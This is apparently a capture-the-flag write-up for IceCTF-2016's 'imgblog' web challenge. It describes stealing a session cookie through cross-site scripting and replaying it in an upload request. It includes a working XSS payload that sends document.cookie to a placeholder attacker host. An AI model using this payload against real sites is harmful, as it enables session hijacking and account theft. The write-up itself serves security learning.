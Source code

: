 # IceCTF-2016 : imgblog-130

**Category:** Web
**Points:** 130
**Description:**

I found this amazing blog about Iceland! Did I ever tell you that I love Iceland? It seems to be made from scratch by a single guy although being impressive, he doesn't seem too have much experience with web programming. Can you see if you can find any vulnerabilites to pwn his machine?

## Writeup

The description indicates the victim's machine is the intended target. From there, we can assume it has something to do with the backend / server portion of the challenge. After some looking around, the session cookie turns out to be the one vector really open to attack. To collect the cookie, use a website to collect the request like [requestbin](http://requestb.in/), and paste the following HTML tag into the DOM, so the browser executes it, and sends your cookeis to the requestbin server: `<script>image=new Image();image.src='http://a.b.c.d:40001/?'+document.cookie;</script>`. Next, find a request sender like [hurl.it](https://hurl.it) and send a POST request to `/upload` (you can find that by tracing an upload) with `HTTP/1.1`, the host `imgblog.vuln.icec.tf` with the session cookie you got in your request bin. 

## Other write-ups and resources

* https://tsublogs.wordpress.com/2016/08/26/icectf-imgblog-web130/
* https://chrisissing.wordpress.com/2016/08/21/icectf-imgblog-write-up/
* https://github.com/73696e65/ctf-notes/blob/master/2016-IceCTF/ImgBlog-Web-120.txt
* https://github.com/318BR/IceCTF/tree/master/2016/Stage4/ImgBlog

